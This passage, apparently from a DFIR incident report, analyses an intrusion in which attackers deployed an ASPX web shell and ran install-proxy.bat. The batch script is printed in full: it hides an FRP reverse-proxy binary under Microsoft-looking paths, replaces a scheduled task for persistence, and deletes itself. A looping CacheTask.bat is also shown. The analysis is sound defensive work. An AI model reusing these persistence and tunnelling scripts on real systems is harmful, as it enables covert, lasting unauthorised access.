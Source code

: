 
The second web shell, aspx\_gtonvbgidhh.apsx, can upload files and runs powershell.exe:  

[![enter image description here](https://thedfirreport.com/wp-content/uploads/2021/11/698c2ba5d0d4708b5d47fc8d7c5cddde918d526e5a06fc913f120d0a15d635d8.png "enter image title here")](https://thedfirreport.com/wp-content/uploads/2021/11/698c2ba5d0d4708b5d47fc8d7c5cddde918d526e5a06fc913f120d0a15d635d8.png)


### Execution


The threat actors executed a script named install-proxy.bat, containing the following lines of code:



```
@echo off
cd /D "%~dp0"
mkdir C:\ProgramData\Microsoft\Windows\Runtime\
mkdir C:\ProgramData\Microsoft\Windows\DllHost\

move /Y dllhost.exe C:\ProgramData\Microsoft\Windows\DllHost\dllhost.exe
move /Y RuntimeBroker C:\ProgramData\Microsoft\Windows\Runtime\RuntimeBroker
move /Y CacheTask.bat C:\ProgramData\Microsoft\CacheTask.bat

schtasks.exe /End /tn "\Microsoft\Windows\Maintenance\CacheTask"
schtasks.exe /Delete /tn "\Microsoft\Windows\Maintenance\CacheTask"
schtasks.exe /Create /F /XML CacheTask.xml /tn "\Microsoft\Windows\Maintenance\CacheTask"
schtasks.exe /Run /tn "\Microsoft\Windows\Maintenance\CacheTask"

del /F CacheTask.xml

start /b "" cmd /c del "%~f0"&exit /b
```

The script creates two directories, then moves files into their respective directories. It first stops and then deletes a task named CacheTask if it exists. It then Creates a schedule task which will call an XML file which then executes CacheTask.bat


![](https://thedfirreport.com/wp-content/uploads/2021/11/1-5.png)


CacheTask.bat is a script that loops the execution of the Fast Reverse Proxy **(**[FRP](https://github.com/fatedier/frp)) binary:



```
:loop

C:\ProgramData\Microsoft\Windows\DllHost\dllhost.exe

goto loop
```

[![dllhost.exe](https://thedfirreport.com/wp-content/uploads/2021/11/875114a0effd7f5fcd1ed099bea36dfef07ddb1060d65dc21446ebfff8cbc4d8.png "enter image title here")](https://thedfirreport.com/wp-content/uploads/2021/11/875114a0effd7f5fcd1ed099bea36dfef07ddb1060d65dc21446ebfff8cbc4d8.png)
